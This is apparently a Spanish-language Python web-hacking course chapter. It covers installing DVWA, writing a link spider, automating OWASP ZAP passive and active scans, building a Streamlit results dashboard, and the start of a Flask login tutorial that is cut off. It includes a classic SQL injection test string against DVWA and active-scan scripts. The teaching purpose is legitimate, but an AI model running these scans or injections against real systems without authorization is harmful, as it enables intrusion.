

| **Inicio**         | **atrás 6**                                                                  | **Siguiente 8**                                                  |
| ------------------ | ---------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./4_6_Python_Hacking_y_Explotacion_de_redes_informaticas_con_Python.md) | [⏩](./4_8_Post_Explotacion_y_evasion_de_defensas_con_Python.md) |

---

## **Índice**

| Temario                                                                                                                             |
| ----------------------------------------------------------------------------------------------------------------------------------- |
| [244. Instalación de una aplicación web vulnerable](#232-man-in-the-middle-mitm-y-arp-spoofing)                                     |
| [245. Spidering y Crawling con Python](#233-arp-spoofing-con-python)                                                                |
| [246. OWASP ZAP con Python: Análisis avanzado de aplicaciones web](#234-interceptación-de-tráfico-de-red-en-tiempo-real-con-python) |
| [247. Presentación de resultados con Streamlit](#235-modificación-de-tráfico-de-red-en-tiempo-real-con-python)                      |
| [248. Análisis pasivo con Python y OWASP ZAP](#236-modificación-de-tráfico-http-en-tiempo-real)                                     |
| [249. Análisis activo con Python y OWASP ZAP](#237-introducción-a-dns-spoofing)                                                     |
| [250. Autenticación en una aplicación web con Python](#238-dns-spoofing-con-python)                                                 |
| [251. Introducción al escaneo y explotación de XSS con Python](#239-unas-palabras-sobre-sslstrip-y-hsts)                            |
| [252. Escaneo y explotación de XSS con Python](#240-detectar-arp-spoofing-con-python)                                               |
| [253. Implementa un escáner de SQL Injection con Python](#241-fuerza-bruta-ssh-con-python)                                          |
| [254. Escaneo y explotación de SQL Injection con Python](#242-dhcp-listener-con-python)                                             |
| [255. Descubrimiento de subdominios con Python](#243-mac-spoofing-con-python)                                                       |
| [256. Descubrimiento de contenido web con Python](#241-fuerza-bruta-ssh-con-python)                                                 |
| [257. Fuerza Bruta a paneles de autenticación web con Python](#242-dhcp-listener-con-python)                                        |
| [258. Extendiendo Burp Suite con Python](#243-mac-spoofing-con-python)                                                              |

---

# **Python Hacking y Explotacion de aplicaciones Web con Python**

## **244. Instalación de una aplicación web vulnerable**

### 🧠 ¿Qué es una aplicación web vulnerable?

Es una aplicación creada **intencionalmente con fallos de seguridad**, como:

- Inyección SQL
- XSS
- Falsificación de peticiones (CSRF)
- Subida de archivos maliciosos
- Ejecución remota de comandos

Estas apps son útiles para entrenar técnicas ofensivas y defensivas de seguridad web en un **entorno controlado**.

---

### 🔒 ⚠️ ADVERTENCIA LEGAL

> Nunca debes instalar estas aplicaciones vulnerables en un servidor público ni en una red de producción.
> Solo deben usarse en **laboratorios locales o máquinas virtuales aisladas**.

---

### ✅ Requisitos previos

Puedes hacerlo de 2 formas:

1. 🐳 **Con Docker** (más fácil y rápido)
2. 💻 **Manual** (para aprender más)

Te explicaré ambas, usando una de las apps más populares:

### 📦 DVWA (Damn Vulnerable Web Application)

Es una de las apps vulnerables más usadas para aprender **OWASP Top 10**.

---

### 🔁 OPCIÓN 1: INSTALAR DVWA CON DOCKER (recomendado)

#### 1. Instala Docker

En Linux (Debian/Ubuntu):

```bash
sudo apt update
sudo apt install docker.io docker-compose -y
sudo systemctl start docker
sudo systemctl enable docker
```

Verifica que Docker funcione:

```bash
docker --version
```

#### 2. Crea carpeta para el proyecto

```bash
mkdir dvwa
cd dvwa
```

#### 3. Crea un archivo `docker-compose.yml` con este contenido:

```yaml
version: "3"

services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
    restart: always
```

#### 4. Ejecuta el contenedor:

```bash
sudo docker-compose up -d
```

#### 5. Abre tu navegador

Ve a: [http://localhost:8080](http://localhost:8080)

Verás la interfaz de **DVWA**. Solo tienes que hacer clic en “Create / Reset Database”.

---

### ✍️ Credenciales por defecto:

```
Usuario: admin
Contraseña: password
```

---

### 🛠️ OPCIÓN 2: INSTALAR DVWA MANUALMENTE (sin Docker)

Ideal si quieres aprender cómo funciona por dentro.

#### 1. Requisitos

- Apache
- PHP
- MySQL
- DVWA

#### En Ubuntu:

```bash
sudo apt update
sudo apt install apache2 php php-mysqli git mariadb-server -y
```

#### 2. Clonar DVWA

```bash
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
sudo chown -R www-data:www-data DVWA
```

#### 3. Configurar base de datos

```bash
sudo mysql -u root
```

Y dentro del prompt de MySQL:

```sql
CREATE DATABASE dvwa;
CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'dvwapass';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwauser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

#### 4. Configurar DVWA

```bash
cd /var/www/html/DVWA/config
sudo cp config.inc.php.dist config.inc.php
sudo nano config.inc.php
```

Edita las líneas para que coincidan con:

```php
$_DVWA[ 'db_user' ] = 'dvwauser';
$_DVWA[ 'db_password' ] = 'dvwapass';
```

Guarda y cierra.

#### 5. Reinicia Apache

```bash
sudo systemctl restart apache2
```

---

#### 6. Accede desde navegador

Navega a: [http://localhost/DVWA](http://localhost/DVWA)

Haz clic en “Create / Reset Database”.

---

### 🔓 ¿Qué vulnerabilidades trae DVWA?

DVWA incluye ejemplos de:

| Vulnerabilidad           | Descripción breve                           |
| ------------------------ | ------------------------------------------- |
| SQL Injection            | Inyección directa de consultas SQL          |
| Command Injection        | Inyección de comandos del sistema operativo |
| File Upload              | Carga de archivos inseguros                 |
| XSS (Reflected y Stored) | Inyección de scripts en formularios         |
| CSRF                     | Manipulación de acciones sin consentimiento |
| Brute Force              | Ataques por fuerza bruta de login           |

Puedes elegir el **nivel de seguridad** (Low, Medium, High, Impossible) desde la configuración.

---

### 🧪 EJEMPLO COMPLETO DE USO

#### 1. Accede a [http://localhost:8080](http://localhost:8080)

#### 2. Inicia sesión con:

```
admin / password
```

#### 3. Ve al módulo “SQL Injection”

#### 4. Prueba esto en el campo “User ID”:

```
1' OR '1'='1
```

Esto devolverá todos los usuarios, demostrando que la app es vulnerable a inyección SQL.

---

### 🧠 RESUMEN

| Elemento       | Detalle                                                                                           |
| -------------- | ------------------------------------------------------------------------------------------------- |
| App vulnerable | DVWA (Damn Vulnerable Web App)                                                                    |
| Instalación    | Por Docker (fácil) o manual (más didáctico)                                                       |
| URL de acceso  | [http://localhost:8080](http://localhost:8080) (o [http://localhost/DVWA](http://localhost/DVWA)) |
| Prácticas      | OWASP Top 10: SQLi, XSS, CSRF, File Upload, etc.                                                  |
| Precaución     | Solo usar en entorno de laboratorio                                                               |

---

### 🧰 Otras apps vulnerables que puedes explorar:

| Nombre            | Descripción                              |
| ----------------- | ---------------------------------------- |
| **bWAPP**         | Incluye +100 vulnerabilidades            |
| **Mutillidae II** | App PHP vulnerable a propósito           |
| **Juice Shop**    | App moderna con vulnerabilidades OWASP   |
| **WebGoat**       | Proyecto oficial de OWASP para prácticas |

---

[🔼](#índice)

---

## **245. Spidering y Crawling con Python**

### 🕷️ ¿Qué es _Spidering_ y _Crawling_?

Son técnicas usadas para **recorrer automáticamente sitios web**, recolectando enlaces y contenido.

| Término       | Significado                                                                                        |
| ------------- | -------------------------------------------------------------------------------------------------- |
| **Crawling**  | Navegar automáticamente por un sitio web, extrayendo URLs, textos, imágenes, etc.                  |
| **Spidering** | Específicamente seguir enlaces como una “araña” que explora todo el sitio. Muy similar a crawling. |

Usado por:

- **Motores de búsqueda** (como Google)
- **Scrapers** (para recolectar datos)
- **Auditores de seguridad** (para encontrar rutas ocultas)
- **Hackers éticos** (reconocimiento de sitios)

---

### 🧰 Herramientas que usaremos en Python

Usaremos:

1. **requests** → Para hacer peticiones HTTP
2. **BeautifulSoup** → Para analizar y extraer contenido HTML
3. **urllib.parse** → Para construir URLs absolutas

---

### ✅ Instalación de herramientas necesarias

Abre tu terminal y ejecuta:

```bash
pip install requests beautifulsoup4
```

---

### 💡 Conceptos clave

- **URL base**: punto inicial del sitio.
- **Enlaces encontrados**: URLs extraídas del HTML.
- **Lista de URLs visitadas**: para evitar repetir.
- **Recursividad**: visitar enlaces encontrados dentro de cada página.

---

### 🐍 EJEMPLO COMPLETO: Spider simple con Python

Vamos a crear un **Spider que recorra un sitio web y guarde todos los enlaces internos** que encuentre.

---

#### 📁 Paso 1: Crear archivo `simple_spider.py`

```python
import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin, urlparse

# Sitio web inicial (puedes cambiar esto por cualquier dominio)
inicio_url = "http://books.toscrape.com/"

# Listas para controlar lo que visitamos
visitados = set()
pendientes = [inicio_url]

print("[*] Iniciando spider...\n")

while pendientes:
    url_actual = pendientes.pop(0)

    if url_actual in visitados:
        continue

    print(f"[+] Visitando: {url_actual}")
    visitados.add(url_actual)

    try:
        respuesta = requests.get(url_actual, timeout=5)
    except requests.RequestException as e:
        print(f"[!] Error al acceder a {url_actual}: {e}")
        continue

    soup = BeautifulSoup(respuesta.text, "html.parser")

    # Buscar todos los enlaces en la página
    for enlace in soup.find_all("a"):
        href = enlace.get("href")
        if href:
            # Construir URL absoluta
            url_completa = urljoin(url_actual, href)

            # Filtrar solo enlaces internos
            dominio_inicio = urlparse(inicio_url).netloc
            dominio_enlace = urlparse(url_completa).netloc

            if dominio_enlace == dominio_inicio and url_completa not in visitados:
                pendientes.append(url_completa)
```

---

### 🧪 ¿Cómo ejecutarlo?

1. Guarda el script como `simple_spider.py`.
2. Ejecuta en la terminal:

```bash
python3 simple_spider.py
```

3. Verás cómo el programa va **visitando enlaces internos** del sitio y los imprime.

---

### 🔍 ¿Qué hace este código?

| Parte                      | Explicación                                      |
| -------------------------- | ------------------------------------------------ |
| `requests.get()`           | Solicita la página                               |
| `BeautifulSoup`            | Analiza el HTML                                  |
| `urljoin()`                | Construye la URL absoluta                        |
| `urlparse().netloc`        | Extrae el dominio para asegurar que sea el mismo |
| `visitados` y `pendientes` | Evita bucles infinitos y enlaces repetidos       |

---

### 🔐 ¿Dónde se usa esto en ciberseguridad?

- **Reconocimiento web** (para encontrar paneles ocultos)
- **Descubrimiento de recursos** (páginas internas, archivos)
- **Mapeo del sitio** en pruebas de caja gris
- En herramientas como **Burp Suite Spider**, **OWASP ZAP Spider**, etc.

---

### 💡 ¿Y si quiero guardar los resultados en un archivo?

Agrega al final del script:

```python
with open("enlaces_descubiertos.txt", "w") as f:
    for url in visitados:
        f.write(url + "\n")

print("\n[✔] Enlaces guardados en enlaces_descubiertos.txt")
```

---

### ✅ RESUMEN

| Tema             | Detalle                                                     |
| ---------------- | ----------------------------------------------------------- |
| Qué aprendiste   | Spidering y Crawling con Python                             |
| Librerías usadas | `requests`, `BeautifulSoup`, `urllib.parse`                 |
| Sitio de prueba  | [http://books.toscrape.com](http://books.toscrape.com)      |
| Objetivo         | Recorrer el sitio y recolectar enlaces                      |
| Seguridad        | Úsalo solo en sitios legales, educativos o con autorización |

---

[🔼](#índice)

---

## **246. OWASP ZAP con Python: Análisis avanzado de aplicaciones web**

### 🛡️ ¿Qué es OWASP ZAP?

**ZAP (Zed Attack Proxy)** es una herramienta de **pentesting web automatizado** desarrollada por OWASP. Es gratuita, de código abierto, y sirve para:

- Escanear vulnerabilidades como **XSS**, **SQLi**, etc.
- Realizar **spidering**, **fuzzing**, escaneo pasivo y activo
- Automatizar auditorías con su **API REST** y **scripts en Python**

---

### 🤔 ¿Por qué usarlo con Python?

Usar ZAP desde Python te permite:

- Integrarlo a flujos de CI/CD (DevSecOps)
- Automatizar auditorías de múltiples sitios
- Personalizar escaneos y reportes
- Usarlo como base para crear tu propia herramienta

---

### 🔧 INSTALACIÓN COMPLETA PASO A PASO

#### ✅ Paso 1: Instalar OWASP ZAP

Puedes usarlo de varias formas:

##### a) Descarga desde el sitio oficial:

- Ir a: [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
- Descargar la versión **Cross-Platform** (para Linux, Windows o macOS)

##### b) O desde Snap (Linux):

```bash
sudo snap install zaproxy
```

#### c) O con Docker:

```bash
docker pull owasp/zap2docker-stable
```

---

#### ✅ Paso 2: Ejecutar OWASP ZAP con API abierta

Ejecuta ZAP con la API REST habilitada:

```bash
./zap.sh -daemon -host 127.0.0.1 -port 8090 -config api.disablekey=true
```

- `-daemon`: lo ejecuta en segundo plano (sin GUI)
- `-port 8090`: la API REST estará en ese puerto
- `-disablekey=true`: para no requerir una API key

---

#### ✅ Paso 3: Instalar el cliente Python para OWASP ZAP

```bash
pip install python-owasp-zap-v2.4
```

Esto instala el módulo oficial de Python para controlar ZAP.

---

### 🐍 EJEMPLO COMPLETO: Escaneo web con ZAP desde Python

Este ejemplo:

- Lanza un **spider**
- Realiza un **escaneo activo**
- Imprime las vulnerabilidades encontradas

---

#### 📄 Código: `zap_scan.py`

```python
from zapv2 import ZAPv2
import time

# Dirección de la API de ZAP
zap = ZAPv2(proxies={'http': 'http://127.0.0.1:8090', 'https': 'http://127.0.0.1:8090'})

# URL objetivo (usa sitios de prueba como DVWA o OWASP Juice Shop)
objetivo = 'http://testphp.vulnweb.com/'

print(f"[+] Accediendo a: {objetivo}")
zap.urlopen(objetivo)
time.sleep(2)

# Iniciar spider
print("[*] Ejecutando spider...")
scan_id = zap.spider.scan(objetivo)
time.sleep(2)

while int(zap.spider.status(scan_id)) < 100:
    print(f"[+] Spider progreso: {zap.spider.status(scan_id)}%")
    time.sleep(1)

print("[✓] Spider finalizado")

# Escaneo activo
print("[*] Ejecutando escaneo activo...")
active_scan_id = zap.ascan.scan(objetivo)

while int(zap.ascan.status(active_scan_id)) < 100:
    print(f"[+] Escaneo activo: {zap.ascan.status(active_scan_id)}%")
    time.sleep(1)

print("[✓] Escaneo activo completado")

# Resultados
print("\n[!] Vulnerabilidades encontradas:")
for alerta in zap.core.alerts(baseurl=objetivo):
    print(f"- {alerta['alert']} | Riesgo: {alerta['risk']}")

# Puedes guardar en archivo:
with open("reporte_vulnerabilidades.txt", "w") as f:
    for alerta in zap.core.alerts(baseurl=objetivo):
        f.write(f"{alerta['alert']} | Riesgo: {alerta['risk']}\n")

print("\n[✔] Reporte guardado en 'reporte_vulnerabilidades.txt'")
```

---

### ✅ ¿Cómo ejecutarlo?

1. Asegúrate de tener OWASP ZAP corriendo con el parámetro `-daemon`.
2. Ejecuta el script:

```bash
python3 zap_scan.py
```

---

### 🔬 ¿Dónde lo puedes probar?

Sitios vulnerables públicos para prácticas:

- [http://testphp.vulnweb.com](http://testphp.vulnweb.com)
- [https://juice-shop.herokuapp.com](https://juice-shop.herokuapp.com) (Juice Shop)
- [http://dvwa.local](http://dvwa.local) (si tienes DVWA en tu red local)

---

### 🧪 ¿Qué analiza ZAP?

| Tipo de vulnerabilidad        | Detecta con      |
| ----------------------------- | ---------------- |
| XSS                           | Escaneo activo   |
| SQL Injection                 | Escaneo activo   |
| Seguridad en cookies          | Escaneo pasivo   |
| Headers inseguros (CSP, HSTS) | Pasivo           |
| Archivos accesibles           | Spider/Fuzzer    |
| Formularios inseguros         | Spider + Escaneo |

---

### 📂 ¿Cómo extender esto?

Puedes:

- Automatizar escaneo de múltiples URLs
- Generar reportes HTML o JSON (`zap.core.htmlreport()`)
- Integrar a CI/CD (GitHub Actions, Jenkins)
- Añadir autenticación para sitios protegidos

---

### ✅ RESUMEN

| Elemento              | Detalle                            |
| --------------------- | ---------------------------------- |
| Herramienta usada     | OWASP ZAP con Python               |
| Instalación           | Manual, Snap, o Docker             |
| Cliente de Python     | `python-owasp-zap-v2.4`            |
| API REST              | Controla ZAP desde scripts         |
| Acciones automáticas  | Spider, escaneo activo, resultados |
| Archivo de resultados | `reporte_vulnerabilidades.txt`     |

---

[🔼](#índice)

---

## **247. Presentación de resultados con Streamlit**

### 🧠 ¿Qué es Streamlit?

**Streamlit** es una biblioteca de Python que te permite crear **aplicaciones web interactivas** para visualizar y compartir resultados sin necesidad de conocimientos profundos en frontend (como HTML o JS).

Ideal para:

- Mostrar gráficos, tablas, textos
- Visualizar modelos de machine learning
- Mostrar dashboards de ciberseguridad o auditoría

---

### 🛠️ INSTALACIÓN DE STREAMLIT

#### Paso 1: Crear un entorno virtual (opcional pero recomendado)

```bash
python -m venv env
source env/bin/activate   # En Linux/macOS
env\Scripts\activate      # En Windows
```

#### Paso 2: Instalar Streamlit

```bash
pip install streamlit
```

---

### 🧪 EJEMPLO SENCILLO: Dashboard de análisis de vulnerabilidades

Supongamos que tenemos un archivo `.csv` con resultados de un escaneo (como el generado por ZAP u otra herramienta):

#### ✅ Archivo: `vulnerabilidades.csv`

```csv
Alerta,Riesgo,URL
XSS Reflejado,Alto,http://testphp.vulnweb.com
SQL Injection,Crítico,http://testphp.vulnweb.com/login.php
Insecure Cookies,Medio,http://testphp.vulnweb.com
```

---

#### 🧾 Archivo Python: `app.py`

```python
import streamlit as st
import pandas as pd
import plotly.express as px

# Título principal
st.title("📊 Dashboard de Vulnerabilidades Web")

# Cargar los datos
archivo = st.file_uploader("Sube el archivo CSV con vulnerabilidades", type="csv")

if archivo is not None:
    df = pd.read_csv(archivo)

    st.subheader("Vista previa de datos:")
    st.dataframe(df)

    # Conteo por riesgo
    st.subheader("Distribución por nivel de riesgo")
    conteo_riesgo = df['Riesgo'].value_counts().reset_index()
    conteo_riesgo.columns = ['Riesgo', 'Cantidad']

    fig = px.pie(conteo_riesgo, names='Riesgo', values='Cantidad',
                 title='Vulnerabilidades por nivel de riesgo',
                 color_discrete_sequence=px.colors.sequential.RdBu)

    st.plotly_chart(fig)

    # Tabla filtrada
    st.subheader("Filtrar por nivel de riesgo:")
    riesgo_seleccionado = st.multiselect("Selecciona niveles de riesgo:", df['Riesgo'].unique())

    if riesgo_seleccionado:
        df_filtrado = df[df['Riesgo'].isin(riesgo_seleccionado)]
        st.dataframe(df_filtrado)
    else:
        st.write("Selecciona al menos un nivel de riesgo para mostrar la tabla.")
```

---

### 🚀 ¿Cómo ejecutarlo?

1. Coloca tu archivo `vulnerabilidades.csv` en el mismo directorio.
2. Ejecuta la app:

```bash
streamlit run app.py
```

3. Se abrirá automáticamente en tu navegador, en la URL:

```
http://localhost:8501
```

---

### 🧩 ¿Qué puedes hacer desde aquí?

| Funcionalidad             | ¿Qué hace?                                   |
| ------------------------- | -------------------------------------------- |
| Subida de CSV             | Permite cargar un archivo con resultados     |
| Vista previa              | Muestra tabla con todas las vulnerabilidades |
| Gráfico interactivo (Pie) | Muestra riesgos distribuidos por categoría   |
| Filtro por riesgo         | Permite filtrar la tabla por nivel de riesgo |

---

### 📌 Mejoras opcionales que puedes agregar

- Agregar exportación a PDF
- Leer JSON o XML además de CSV
- Colorear la tabla según severidad
- Agregar enlaces clicables en la columna URL
- Mostrar alertas más frecuentes

---

### ✅ RESUMEN

| Elemento              | Descripción                     |
| --------------------- | ------------------------------- |
| Herramienta principal | Streamlit                       |
| Tipo de app           | Dashboard interactivo           |
| Datos de entrada      | Archivo CSV de vulnerabilidades |
| Visualización         | Tabla + gráfico de torta        |
| Código principal      | `app.py`                        |
| Ejecución             | `streamlit run app.py`          |

---

[🔼](#índice)

---

## **248. Análisis pasivo con Python y OWASP ZAP**

### 🧠 ¿Qué es un análisis pasivo?

El **análisis pasivo** en seguridad web es un tipo de escaneo que **no genera tráfico malicioso ni intenta explotar vulnerabilidades**. Solo **observa** el tráfico de la aplicación para detectar:

- Headers inseguros (falta de HSTS, CSP, etc.)
- Uso de cookies inseguras
- Formularios que no usan HTTPS
- Archivos expuestos
- Errores de configuración

👉 Es **seguro** y se puede usar en producción si se tiene cuidado.

---

### 🛠️ Herramientas necesarias

#### ✅ 1. OWASP ZAP

OWASP ZAP es un proxy que intercepta y analiza tráfico HTTP/S. Para análisis pasivo:

- Intercepta solicitudes/respuestas
- Evalúa sin atacar

#### ✅ 2. Python

Usamos Python con el módulo oficial de ZAP para controlar la herramienta y recolectar datos.

---

### 🔧 Instalación paso a paso

#### 1. Instalar OWASP ZAP

##### Opción A: Descargar manualmente

- Ve a: [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
- Descarga y extrae la versión para tu sistema operativo

##### Opción B: Usar Docker (recomendado)

```bash
docker pull owasp/zap2docker-stable
```

Y ejecútalo con:

```bash
docker run -u zap -p 8090:8090 -i owasp/zap2docker-stable zap.sh -daemon -host 0.0.0.0 -port 8090 -config api.disablekey=true
```

#### 2. Instalar cliente de Python para OWASP ZAP

```bash
pip install python-owasp-zap-v2.4
```

---

### 🧪 ¿Cómo funciona el análisis pasivo?

1. Hacemos que OWASP ZAP observe el tráfico HTTP/HTTPS que pasa por él.
2. Enviamos una o varias peticiones desde Python o navegador.
3. Usamos Python para extraer las **alertas pasivas** detectadas por ZAP.

---

### ✅ EJEMPLO COMPLETO DE ANÁLISIS PASIVO

#### Escenario:

Queremos analizar pasivamente el sitio de pruebas:
`http://testphp.vulnweb.com/`

---

##### 📄 Código Python: `analisis_pasivo.py`

```python
from zapv2 import ZAPv2
import time

# Conexión a la API de ZAP
zap = ZAPv2(proxies={'http': 'http://127.0.0.1:8090', 'https': 'http://127.0.0.1:8090'})

# URL a analizar pasivamente
objetivo = 'http://testphp.vulnweb.com/'

print(f"[+] Visitando {objetivo} para activar análisis pasivo...")
zap.urlopen(objetivo)
time.sleep(5)  # Esperar que ZAP capture y analice

print("[✓] Visita completada. Recopilando alertas pasivas...")

# Obtener alertas (sólo las pasivas se generarán si no hicimos escaneo activo)
alertas = zap.core.alerts(baseurl=objetivo)

if alertas:
    for alerta in alertas:
        print(f"""
        [!] Alerta: {alerta['alert']}
        - Riesgo: {alerta['risk']}
        - Descripción: {alerta['desc']}
        - Solución: {alerta['solution']}
        - URL: {alerta['url']}
        """)
else:
    print("[✓] No se encontraron alertas pasivas.")

# Guardar reporte
with open("reporte_pasivo.txt", "w") as f:
    for alerta in alertas:
        f.write(f"{alerta['alert']} ({alerta['risk']}) - {alerta['url']}\n")

print("\n[✓] Reporte guardado en 'reporte_pasivo.txt'")
```

---

### 🔄 Cómo ejecutarlo paso a paso

1. Ejecuta OWASP ZAP (modo daemon sin GUI):

```bash
./zap.sh -daemon -host 127.0.0.1 -port 8090 -config api.disablekey=true
```

o con Docker:

```bash
docker run -u zap -p 8090:8090 -i owasp/zap2docker-stable zap.sh -daemon -host 0.0.0.0 -port 8090 -config api.disablekey=true
```

2. Ejecuta el script:

```bash
python3 analisis_pasivo.py
```

3. Verás las alertas pasivas en la terminal y se guardarán en `reporte_pasivo.txt`.

---

### 📊 ¿Qué tipo de alertas pasivas puedes encontrar?

| Tipo de alerta                                | Riesgo | Ejemplo                  |
| --------------------------------------------- | ------ | ------------------------ |
| Cabecera `X-Frame-Options` ausente            | Medio  | Riesgo de clickjacking   |
| Cookies inseguras (sin `Secure` o `HttpOnly`) | Medio  | Riesgo de robo de sesión |
| Contenido mixto (http dentro de https)        | Alto   | Riesgo de intercepción   |
| Recursos sin cache                            | Bajo   | No optimizado            |
| Server Header revelado                        | Bajo   | Información expuesta     |

---

### ✅ RESUMEN

| Elemento              | Detalle                                       |
| --------------------- | --------------------------------------------- |
| Herramienta principal | OWASP ZAP                                     |
| Modo de operación     | Daemon (sin GUI)                              |
| Tipo de análisis      | Pasivo (sin atacar)                           |
| API de control        | Python con `python-owasp-zap-v2.4`            |
| Resultado             | Lista de alertas pasivas en consola y archivo |

---

[🔼](#índice)

---

## **249. Análisis activo con Python y OWASP ZAP**

### 🧠 ¿Qué es un análisis activo con OWASP ZAP?

El **análisis activo** va más allá del pasivo: además de observar el tráfico, **lanza pruebas activas** para detectar vulnerabilidades. Algunas pruebas que puede realizar:

- Inyecciones SQL
- Cross-site scripting (XSS)
- Command injection
- File path traversal
- Fuerza bruta de formularios
- Escaneo de cabeceras y configuraciones inseguras

🔴 Esto puede alterar el comportamiento del sitio. Úsalo **solo en entornos de prueba** o con autorización.

---

### 🛠️ ¿Qué necesitamos?

| Herramienta                       | Descripción                            |
| --------------------------------- | -------------------------------------- |
| Python                            | Para controlar ZAP con su API          |
| OWASP ZAP                         | Herramienta de escaneo y proxy         |
| `python-owasp-zap-v2.4`           | Cliente Python oficial para OWASP ZAP  |
| Un sitio web vulnerable de prueba | Usaremos: `http://testphp.vulnweb.com` |

---

### 🔧 Instalación paso a paso

#### ✅ 1. Instalar OWASP ZAP

##### Opción A: Manual

- Ir a: [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
- Descargar la versión para tu sistema (Windows/Linux/macOS)

##### Opción B: Docker (recomendado)

```bash
docker pull owasp/zap2docker-stable
```

Ejecutar ZAP como servicio (modo _daemon_):

```bash
docker run -u zap -p 8090:8090 -i owasp/zap2docker-stable zap.sh -daemon -host 0.0.0.0 -port 8090 -config api.disablekey=true
```

Esto iniciará ZAP en modo silencioso y sin interfaz gráfica, accesible por API.

---

#### ✅ 2. Instalar cliente Python

```bash
pip install python-owasp-zap-v2.4
```

---

### ⚙️ ¿Cómo funciona el análisis activo?

1. Conectamos a ZAP usando su API.
2. Visitamos la URL objetivo (esto puebla el árbol de navegación de ZAP).
3. ZAP escanea activamente las páginas detectadas.
4. Obtenemos las vulnerabilidades encontradas.

---

### ✅ EJEMPLO COMPLETO CON PYTHON

#### 🎯 Sitio objetivo: `http://testphp.vulnweb.com/`

---

##### 📄 Código: `analisis_activo.py`

```python
from zapv2 import ZAPv2
import time

# Conectarse a la API de ZAP
zap = ZAPv2(proxies={'http': 'http://127.0.0.1:8090', 'https': 'http://127.0.0.1:8090'})

objetivo = 'http://testphp.vulnweb.com/'
print(f"[+] Iniciando escaneo activo sobre: {objetivo}")

# Visitar el objetivo para que ZAP lo registre
zap.urlopen(objetivo)
time.sleep(3)

# Obtener el ID del escaneo activo
scan_id = zap.ascan.scan(objetivo)
print(f"[✓] Escaneo lanzado. ID: {scan_id}")

# Esperar a que el escaneo termine
while int(zap.ascan.status(scan_id)) < 100:
    print(f"[...] Progreso del escaneo: {zap.ascan.status(scan_id)}%")
    time.sleep(2)

print("[✓] Escaneo activo finalizado.")

# Obtener las alertas encontradas
alertas = zap.core.alerts(baseurl=objetivo)

# Mostrar resultados
if alertas:
    for alerta in alertas:
        print(f"""
        [!] Alerta: {alerta['alert']}
        - Riesgo: {alerta['risk']}
        - URL: {alerta['url']}
        - Descripción: {alerta['desc']}
        - Solución: {alerta['solution']}
        """)
else:
    print("No se encontraron vulnerabilidades.")

# Guardar reporte HTML
with open("reporte_activo.html", "w", encoding="utf-8") as f:
    f.write(zap.core.htmlreport())
    print("[✓] Reporte HTML guardado como 'reporte_activo.html'")
```

---

### 🚀 Cómo ejecutarlo

#### Paso 1: Inicia OWASP ZAP en modo daemon

##### En consola local:

```bash
zap.sh -daemon -host 127.0.0.1 -port 8090 -config api.disablekey=true
```

##### O en Docker:

```bash
docker run -u zap -p 8090:8090 -i owasp/zap2docker-stable zap.sh -daemon -host 0.0.0.0 -port 8090 -config api.disablekey=true
```

#### Paso 2: Ejecuta tu script Python

```bash
python analisis_activo.py
```

---

### 📊 Resultado

Al finalizar:

- Verás en consola una lista de vulnerabilidades encontradas, su nivel de riesgo, descripción y cómo solucionarlas.
- Se creará un archivo `reporte_activo.html` con un informe visual.

---

### 📌 Algunas vulnerabilidades comunes que detecta ZAP activamente:

| Vulnerabilidad             | Riesgo  |
| -------------------------- | ------- |
| Cross-site scripting (XSS) | Alto    |
| Inyección SQL              | Crítico |
| Cookies inseguras          | Medio   |
| Directorios listados       | Bajo    |
| Formularios sin HTTPS      | Medio   |

---

### ✅ RESUMEN

| Elemento          | Detalle                            |
| ----------------- | ---------------------------------- |
| Herramienta       | OWASP ZAP (API + Python)           |
| Modo              | Activo (lanza ataques controlados) |
| Resultado         | Vulnerabilidades descubiertas      |
| Formato de salida | Consola + HTML                     |

---

[🔼](#índice)

---

## **250. Autenticación en una aplicación web con Python**

### 🧠 ¿Qué es la autenticación?

La **autenticación** es el proceso de verificar la identidad de un usuario. Cuando alguien entra a una app web y pone su **usuario y contraseña**, el sistema verifica si esos datos son correctos antes de permitir el acceso.

🔒 Es **la primera barrera de seguridad** en cualquier sistema web.

---

### 🎯 Objetivo del tutorial

Crear una **aplicación web simple** con:

- Registro de usuarios
- Inicio de sesión (login)
- Cierre de sesión (logout)
- Acceso protegido a una página solo si el usuario está autenticado

---

### ⚙️ Herramientas que vamos a usar

| Herramienta | Descripción                                           |
| ----------- | ----------------------------------------------------- |
| Python      | Lenguaje base                                         |
| Flask       | Micro-framework web muy ligero y fácil de usar        |
| SQLite      | Base de datos liviana para guardar usuarios           |
| Werkzeug    | Biblioteca para manejar contraseñas seguras (hashing) |

---

### 🛠️ Instalación paso a paso

#### 🔹 Paso 1: Crear el entorno

```bash
mkdir flask-auth-app
